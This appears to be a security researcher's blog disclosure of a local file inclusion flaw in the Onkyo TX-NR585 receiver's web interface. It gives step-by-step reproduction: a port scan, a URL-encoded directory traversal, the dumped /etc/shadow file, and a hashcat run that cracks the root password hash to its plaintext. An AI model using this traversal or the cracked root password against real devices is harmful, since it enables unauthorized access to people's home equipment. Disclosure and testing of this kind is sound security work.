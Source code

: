 ```yaml
---
layout: post
title: LFI Within Onkyo TX-NR585 Web Interface
gh-badge:
  - star
  - fork
  - follow
tags:
 - Local File Inclusion 
 - exploit
 - onkyo
 - web
comments: true
published: true
date: '2020-04-27'
---
```


Vendor: https://www.onkyousa.com/

Known Affected Versions:
TX-NR585 Firmware Version 1000-0000-000-0008-0000

### Description:
Within the Onkyo TX-NR585 Radio Reciever there is a local file inclusion vulnerability that can be exploited on the built in webserver(s) on the device. A weakly implemented filter can be bypassed with basic URL encoding techniques (%2e%2e%2f) to expose sensitive files on the system


## Steps to reproduce:

* Locate the Onkyo Reciever on your network 

* Access any of the web servers running on the device, several can be found by running a simple nmap scan:

```
root@pvris:~#nmap -sT -vvv 192.168.0.80
Reason: 993 no-responses
PORT      STATE SERVICE        REASON
80/tcp    open  http           syn-ack
5000/tcp  open  upnp           syn-ack
8008/tcp  open  http           syn-ack
8009/tcp  open  ajp13          syn-ack
8080/tcp  open  http-proxy     syn-ack
8888/tcp  open  sun-answerbook syn-ack
10001/tcp open  scp-config     syn-ack

```

In the above example, I tested 8080 for Local File Inclusion.

* Capture a HTTP Request to the reciever in Burpsuite and send it into Repeater with Control + R

![3d04010747ebc5c102416244e582fc56.png](https://blog.spookysec.net/img/3d04010747ebc5c102416244e582fc56.png)

* Modify the URL to %2e%2e%2f to traverse back a directory, creating several sets of these, we are able to hit the root of the file system, from there we can then attempt to disclose a sensitive file (such as /etc/shadow as seen in the screenshot below)

![f4f5cded13d2186856e436a0db551891.png](https://blog.spookysec.net/img/f4f5cded13d2186856e436a0db551891.png)

* Sucess, we have disclosed a sensitive file on the system. LFI has been achieved.

* For fun, now we have the password hashes out of /etc/shadow, lets try and crack it!

```
root:$6$cUc04nYlQ1/HUOZz$3kbNjY7RyuznIr1VotKXo.t73ws5sF8GFeE7wgMPPO/TubEbYc59EErqg4MDHyVsmTGxVi279wmJZySHjGT3H0:16610:0:99999:7:::
daemon:*:16610:0:99999:7:::
bin:*:16610:0:99999:7:::
sys:*:16610:0:99999:7:::
sync:*:16610:0:99999:7:::
games:*:16610:0:99999:7:::
man:*:16610:0:99999:7:::
lp:*:16610:0:99999:7:::
mail:*:16610:0:99999:7:::
news:*:16610:0:99999:7:::
uucp:*:16610:0:99999:7:::
proxy:*:16610:0:99999:7:::
www-data:*:16610:0:99999:7:::
backup:*:16610:0:99999:7:::
list:*:16610:0:99999:7:::
irc:*:16610:0:99999:7:::
gnats:*:16610:0:99999:7:::
nobody:*:16610:0:99999:7:::
chrome:!:16610:0:99999:7:::
messagebus:!:16610:0:99999:7:::
ntp:!:16610:0:99999:7:::
avahi-autoipd:!:16610:0:99999:7:::
```

Loading the root password hash into hashcat, we are able to crack it relatively quickly, in about a minutes time:

```
.\hashcat.exe -m 1800 -a 0 ..\onkyo.hash E:\Wordlists\rockyou.txt
hashcat (v5.1.0-1770-g2c94c003) starting...

$6$cUc04nYlQ1/HUOZz$3kbNjY7RyuznIr1VotKXo.t73ws5sF8GFeE7wgMPPO/TubEbYc59EErqg4MDHyVsmTGxVi279wmJZySHjGT3H0:morimori

Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$cUc04nYlQ1/HUOZz$3kbNjY7RyuznIr1VotKXo.t73ws5sF8...jGT3H0
Time.Started.....: Mon Apr 27 00:58:27 2020 (33 secs)
Time.Estimated...: Mon Apr 27 00:59:00 2020 (0 secs)
Guess.Base.......: File (E:\Wordlists\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    18675 H/s (10.38ms) @ Accel:1 Loops:64 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 614400/14344384 (4.28%)
Rejected.........: 0/614400 (0.00%)
Restore.Point....: 599040/14344384 (4.18%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
Candidates.#1....: poptart15 -> mizzmoss
Hardware.Mon.#1..: Temp: 50c Fan:  0% Util: 99% Core:1987MHz Mem:3802MHz Bus:8

Started: Mon Apr 27 00:58:00 2020
Stopped: Mon Apr 27 00:59:01 2020
```

Interesting, the cracked password is morimori, which is a Japanese word: もりもり. This actually makes a bit of sense seeing that Onkyo is a Japanese company.
